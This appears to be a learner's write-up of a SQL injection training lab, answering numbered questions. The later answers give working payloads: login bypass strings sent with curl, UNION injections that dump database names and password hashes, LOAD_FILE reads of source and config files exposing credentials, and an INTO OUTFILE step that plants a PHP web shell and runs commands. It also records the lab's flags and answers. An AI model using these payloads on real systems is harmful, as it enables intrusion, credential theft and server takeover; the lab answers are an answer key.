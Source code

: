1. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?

- `employees`

```sh
mysql -u root -ppassword -h $IP -P port_number
SHOW DATABASES;
```

---

2. What is the department number for the 'Development' department?

- `d005`

```sql
USE departments;
SELECT * FROM departments;
```

---

3. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?

```sh
mysql> SELECT * FROM employees WHERE first_name LIKE "Bar%" AND hire_date = "1990-01-01";

+--------+------------+------------+-----------+--------+------------+
| emp_no | birth_date | first_name | last_name | gender | hire_date  |
+--------+------------+------------+-----------+--------+------------+
|  10227 | 1953-10-09 | Barton     | Mitchem   | M      | 1990-01-01 |
+--------+------------+------------+-----------+--------+------------+
```

---

4.  In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?

```sql
SELECT COUNT(emp_no) FROM titles WHERE emp_no > 10000 OR title NOT LIKE '%Engineer%';
```

---

5.  Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?

```sh
curl $IP:$PORT -vvv -X POST -d "username=tom'OR'1=1&password="
```

---

6. Login as the user with the id 5 to get the flag.

- random input result like
```sql
SELECT * FROM logins WHERE (username='abc' AND id > 1) AND password = '350c9d901b7f1c73a481e240ec1b7c0b';
```
- to get id 5
```sql
SELECT * FROM logins WHERE (username='' OR id = 5) -- -' AND id > 1) AND password = 'some-encrypted-string';
```

> username -> `'OR id = 5) -- -`

```sh
❯ curl 167.99.89.94:31450 -vvv -X POST -d "username='OR id=5) -- -&password="
```

---

7. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```sh
mysql> SELECT * FROM employees UNION SELECT 1, 1, dept_no, dept_name, 1, 1 FROM
departments;
```

---

8. Use a Union injection to get the result of 'user()'

- In search box,
```
'  => get an error
'' => no error
' -- - => show all results

// check with ORDER BY 1,2,3,4, 
5 => error 
- contians 4 columns

// use UNION SELECT and test with
' UNION SELECT NULL,NULL,NULL,NULL --
' UNION SELECT 1,NULL,NULL,NULL --
' UNION SELECT 1,2,NULL,NULL --
- etc and find the location of response

' UNION SELECT 1,2,user(),4 --'
```

---

9. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

- in search box,
```sql
# test with above methods
# find db version
abc' UNION SELECT 1,2,@@version,4 -- -
# 	10.3.22-MariaDB-1ubuntu1

abc' UNION SELECT 1,2,3,schema_name FROM INFORMATION_SCHEMA.SCHEMATA -- -
# will get 5 dbs including dev, ilfreight

abc' UNION SELECT 1,2,table_name,table_schema FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ilfreight' -- -
# get 3 tables' names - ports, products, users

abc' UNION SELECT 1,column_name,table_name,table_schema FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' -- -
# get 6 columns - username and password

abc' UNION SELECT 1,2,username,password FROM ilfreight.users -- -
# get 2 records -> admin, newuser and with their passwords
```

---

10. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
# test with above results

abc' UNION SELECT 1,2,3,USER() -- - // root@localhost
abc' UNION SELECT 1,2,3,super_priv FROM mysql.user WHERE user="root" -- - // Y
abc' UNION SELECT 1,2,grantee,privilege_type FROM INFORMATION_SCHEMA.USER_PRIVILEGES -- - // result many privilege_types including FILE

# find the source code of current file
abc' UNION SELECT 1,2,LOAD_FILE('/var/www/html/search.php'),4 -- -
```
- get 
```php
<?php
if (isset($_GET["port_code"])) {
$q = "Select * from ports where code like '%".$_GET["port_code"]."%'";

$result = mysqli_query($conn,$q);
if (!$result)
{
		die("</table></div><p style='font-size: 15px'>".mysqli_error($conn)."</p>");
}
while($row = mysqli_fetch_array($result))
  {
  echo "<tr><td style=\"width:400px\" colspan=3>".$row[1]."</td><td style=\"width:400px\" colspan=3>".$row[2]."</td><td style=\"width:450px\" colspan=3>".$row[3]."</tr>";
  }
}
?>
```
- $conn is not defined and it must be imported somewhere and find the `include` word and find that
```html
<tr><td style="width:400px" colspan=3>2</td><td style="width:400px" colspan=3><?php
include "config.php";
?>
```
- find the source code of config.php

```sql
abc' UNION SELECT 1,2,LOAD_FILE('/var/www/html/config.php'),4 -- -
```
- find that
```php
$config=array(
'DB_HOST'=>'localhost',
'DB_USERNAME'=>'root',
'DB_PASSWORD'=>'dB_pAssw0rd_iS_flag!',
'DB_DATABASE'=>'ilfreight'
);
```

---

11. Find the flag by using a webshell.

- test like above methods and see we have 
- then find security_file_priv with
```
GET /search.php?port_code=abc'+UNION+SELECT+1,variable_name,variable_value,2+FROM+information_schema.global_variables+WHERE+variable_name="secure_file_priv";--+- HTTP/1.1
```
- return no value and we can have write access
- write test file to common web root /var/www/html/test.txt
```
GET /search.php?port_code=abc'+UNION+SELECT+1,'file+written+successfully',3,4+INTO+OUTFILE+'/var/www/html/test.txt';--+- HTTP/1.1
```
- then find `/test.txt` and get the result
- write php file to interact with file system

```
GET /search.php?port_code=abc'+UNION+SELECT+1,'<?php+system($_REQUEST[0]);?>',3,4+INTO+OUTFILE+'/var/www/html/shell.php';--+- HTTP/1.1
```
- find the flag file
```
GET /shell.php?0=find+/+-name+"flag*"+2>/dev/null HTTP/1.1
```
- result `/var/www/flag.txt`

```
GET /shell.php?0=cat+/var/www/flag.txt HTTP/1.1
```
---
